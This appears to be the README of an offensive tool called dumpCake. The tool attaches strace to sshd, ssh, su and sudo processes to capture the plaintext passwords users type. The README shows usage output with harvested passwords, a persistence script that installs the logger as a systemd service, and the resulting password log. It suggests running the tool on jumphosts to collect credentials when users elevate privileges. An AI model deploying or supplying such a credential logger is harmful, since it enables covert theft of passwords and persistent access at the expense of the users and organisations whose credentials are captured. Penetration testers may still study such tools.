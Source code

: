 # dumpCake

This tool captures and logs passwords used during authentication attempts for su/sudo and inbound and outbound SSH sessions. It works by attaching to each SSHD, SSH, Sudo, and Su process and recording the attempted passwords and related details.

It can be particularly useful during a penetration test when scanning computers on a network and attempting to authenticate with Domain Admin credentials.

It can be employed on a jumphost to capture plaintext credentials when users elevate their privileges or SSH elsewhere in the environment.

# Prerequisites
sudo apt install strace

# Usage

```
┌──(root㉿kali)-[~/dumpCake]
└─# ./cake.sh 
Writing to /root/pass.log

Found SSHD Pid: 3011949. Attaching...
Method: sshd
May 23 17:16:03 kali sshd[3011949]: Invalid user frank from 172.25.25.132 port 50962
May 23 17:16:06 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:20 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Connection reset by invalid user frank 172.25.25.132 port 50962 [preauth]
Password Attempt 1: "1234"
Password Attempt 2: "Spring2022!"
Password Attempt 3: ""
----------------------------------------------------
Found SSHD Pid: 3022996. Attaching...
Method: sshd
May 23 17:16:32 kali sshd[3022996]: Accepted password for spicy from 172.25.25.132 port 50964 ssh2
Password Attempt 1: "Password1!"

----------------------------------------------------
Found Outbound SSH Pid: 3575968. Attaching...

Process : ssh pi@pi.hole
User: spicy
Password Attempt 1: "1234"
Password Attempt 2: "!beep20"
----------------------------------------------------
Found Su Pid: 3028865. Attaching...

Process : su spicy
User: spicy
Password Attempt: "Password1!"
Successfully Elevated
----------------------------------------------------
Found Sudo Pid: 3037832. Attaching...

Process : sudo id
User: root
Elevation Failed
----------------------------------------------------
Found Sudo Pid: 3040090. Attaching...

Process : sudo id
User: spicy
Password Attempt 1: "Password1!"
Successfully Elevated
----------------------------------------------------
```

# To install as a service
```
┌──(root㉿kali)-[~/dumpCake]
└─# ./persist.sh 
Created symlink /etc/systemd/system/multi-user.target.wants/password-logging.service → /etc/systemd/system/password-logging.service.
```

# Log output
```
┌──(root㉿kali)-[~]
└─# tail -f pass.log 
Process: sshd: unknown [priv]
May 23 17:16:03 kali sshd[3011949]: Invalid user frank from 172.25.25.132 port 50962
May 23 17:16:06 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:20 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Connection reset by invalid user frank 172.25.25.132 port 50962 [preauth]
Password Attempt 1: "1234"
Password Attempt 2: "Spring2022!"
Password Attempt 3: ""
----------------------------------------------------
Process: ssh pi@pi.hole
User: spicy
Password Attempt 1: "1234"
Password Attempt 2: "!beep20"
----------------------------------------------------
Process : sshd: spicy [priv]
May 23 17:16:32 kali sshd[3022996]: Accepted password for spicy from 172.25.25.132 port 50964 ssh2
Password Attempt 1: "Password1!"
----------------------------------------------------
Process : su spicy
User: spicy
Password Attempt: "Password1!"
Successfully Elevated
----------------------------------------------------
Process : sudo id
User: root
Elevation Failed
----------------------------------------------------
Process : sudo id
User: spicy
Password Attempt 1: "Password1!"
Successfully Elevated
----------------------------------------------------

```
